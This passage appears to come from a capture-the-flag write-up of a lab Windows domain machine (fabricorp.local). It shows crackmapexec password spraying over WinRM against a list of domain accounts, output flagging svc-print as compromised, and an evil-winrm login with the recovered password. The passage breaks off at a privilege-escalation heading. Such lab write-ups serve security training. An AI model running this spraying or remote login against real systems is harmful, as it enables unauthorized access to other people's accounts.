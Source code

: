 ```
[+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
[+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
```

Let's try again with winrm

```
crackmapexec winrm 10.129.54.112 -u domusers -p password.txt --continue-on-success                                                         Fri 09 Sep 2022 07:31:50 PM EDT
SMB         10.129.54.112   5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
HTTP        10.129.54.112   5985   FUSE             [*] http://10.129.54.112:5985/wsman
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
WINRM       10.129.54.112   5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1

```

Successful

```
[+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```

## Exploitation

### Evil-WinRM: Clear-text credentials in domain configuration information

* The password for svc-print was obtained via enumeration of RPC (rpcclient)

### Evil-WinRM

```
evil-winrm -i 10.129.54.112 -u svc_print
Enter Password: $fab@s3Rv1ce$1
```

## Privilege Escalation
